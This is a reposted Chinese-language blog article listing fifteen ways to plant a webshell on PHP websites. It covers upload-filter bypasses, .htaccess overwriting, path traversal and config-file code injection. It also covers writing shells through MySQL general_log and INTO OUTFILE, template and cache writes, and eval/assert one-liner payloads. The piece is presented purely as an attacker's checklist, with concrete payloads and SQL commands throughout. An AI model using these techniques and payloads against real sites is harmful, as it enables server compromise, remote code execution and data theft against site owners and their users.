 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/wzN0MJlAC0R2ej2-0cTjaQ)

**1. 利用文件上传漏洞，找文件上传处想办法上传 php 文件。**

一些网站在设置可以允许修改上传的文件类型则直接添加 php

有时候会还有检测是否为 php 文件，可以通过文件名变形，大小写，双写等形式绕过，只要是黑名单的都比较好绕过

很多 cms 还有. hatccess 文件禁止访问或者执行这个目录下的文件的情况

这种情况直接上传一个. hatccess 文件覆盖这个，让其失效。

或者上传不重命名的话上传../../shell.php 传到其他不被限制访问的目录

或者找任意文件删除漏洞把. hatccess 文件删除

**2. 找文件配置的地方写入 php 代码，一般都有过滤的，想办法绕过**

过滤单引号的话可以用注释把上一个的内容注释掉 在下一个参数配置注入代码

效果如下

```
$conf_1 ='xx\';
$conf_2 = ';phpinfo();//'
```

这样就相当于

```
$conf_1 ='xx\';$conf_2 = ';
phpinfo();
```

php 代码就可以执行了，防护比较弱的话直接访问这个配置文件就可以 getshell 了。

防护比较好禁止访问配置文件时，就找包含这个配置文件的文件即可。

**3.** 找有没有存在任意文件包含的地方，本地包含的话直接上传 php 代码的图片，远程包含的话就在自己的服务器上设置 php 代码文件 

**4.sql 注入 getshell 要知道网站的绝对路径**

方法一：利用设置 mysql log 为 php 文件，并设置路径到网站目录下，这样就可以把 sql 中执行的 php 语句插入的 log 中了

如：

```
SETglobal general_log='on';
SETglobalgeneral_log_file='D:/webshell/WWW/shell.php';#如果没有shell.php
```

会自动创建  

```
SELECT'<?php assert($_POST["cmd"]);?>';
```

方法二：  

```
select "<?php phpinfo(); ?>" into outfile 'shell路径.php'
```

**5. 远程图片文件下载**  

有时候远程图片下载的时候，可以设置一下下载自己的 php 文件

如 自己服务器上的文件 1.php

```
<?php
echo "<?php phpinfo(); ?>";
?>
```

或者别的方式，让页面有 php 代码，如果不过滤后缀的话直接会下载这个 php 文件

**6.zip 解压 getshell**

这个再系统升级或者插件安装的地方很多都有这个问题。上传 shell.php 在压缩包中，上传系统升级时会解压缩，那么就可以 getshell

**7. 缓存写入**

有些地方会把缓存写入到一个 php 文件里，想办法让自己的 payload 写入缓存中

**8. 数据库备份 getshell**

有些提供功能可以通过数据库备份进行修改文件后缀。

**9. 编辑模板 getshell**

在网站编辑模板插入一句话

**10. 命令执行拿 webshell**

echo <?php @eval($_POST(a));?> > 路径. php

可以用相对路径也可以用绝对路径

**11. 编辑器漏洞 getshell**

要留意 cms 使用的编辑器版本是否是已知漏洞的版本

12. 利用文件解析漏洞拿 webshell

13. 找可以执行代码的函数，看看参数是否可控

14. 找写文件的函数，看看文件后缀和内容是否可控

**15. 没有进入后台**

0day 拿 webshell

IIS 写权限拿 webshell(put 一个 shell 进去)

命令执行拿 webshell

通过注入漏洞拿 webshell

前台图片上传拿 webshell

Strusts2 拿 webshell

java 反序列拿 shell

```
作者：黑面狐
来源：https://blog.csdn.net/qq1124794084/article/details/89001203
```

```
扫描关注乌雲安全


觉得不错点个“赞”、“在看”哦
```